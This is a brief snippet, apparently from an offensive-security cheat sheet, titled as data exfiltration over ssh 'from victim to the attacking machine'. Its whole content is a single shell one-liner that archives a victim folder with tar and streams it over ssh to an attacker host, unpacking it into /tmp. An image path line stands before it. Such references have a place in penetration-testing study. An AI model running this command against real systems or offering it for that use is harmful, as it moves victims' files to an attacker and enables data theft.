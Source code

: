 
Data exfilteration using ssh (from victim to the attacking machine)
```shell
tar cf - victim_folder/ | ssh user@attacking_machine.local "cd /tmp/; tar xpf -"
```






